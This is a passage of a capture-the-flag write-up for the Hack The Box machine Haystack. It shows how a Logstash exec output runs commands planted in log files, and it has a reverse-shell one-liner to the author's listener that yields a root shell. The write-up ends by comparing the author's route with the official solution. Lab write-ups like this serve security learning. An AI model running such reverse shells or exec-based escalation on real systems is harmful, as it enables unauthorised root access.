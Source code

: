 ```
}
bash-4.2$ cat output.conf
cat output.conf
output {
        if [type] == "execute" {
                stdout { codec => json }
                exec {
                        command => "%{comando} &"
                }
        }
}
bash-4.2$ 

```

So it looks like all files named logstash_* in the /opt/kibana/ directory with the text "Ejecutar comando : %command" will be executed every 10 seconds.

```
bash-4.2$ pwd
pwd
/opt/kibana
bash-4.2$ echo "Ejecutar comando : bash -i >& /dev/tcp/10.10.14.13/1338 0>&1" > logstash_1
bash-4.2$ cat logstash_1
cat logstash_1
Ejecutar comando : bash -i >& /dev/tcp/10.10.14.13/1338 0>&1
bash-4.2$ 
```

And on our listener:

```
kali@kali:~/htb/Haystack$ sudo nc -nlvp 1338
Listening on 0.0.0.0 1338
Connection received on 10.129.110.90 53802
bash: no hay control de trabajos en este shell
[root@haystack /]# whoami
whoami
root
[root@haystack /]#
```

## Comparing myself to the official writeup:

The combination of Elasticsearch, Logstash, and Kibana is called an ELK stack.

They go straight to the Elasticsearch server and find the indices, and they use curl -s and jq to filter the results.

They find the encoded messages by manually searching.

They find the open ports of the machine with `ss -4 -l -n`

They port forward port 5601 and find the Kibana LFI exploit.
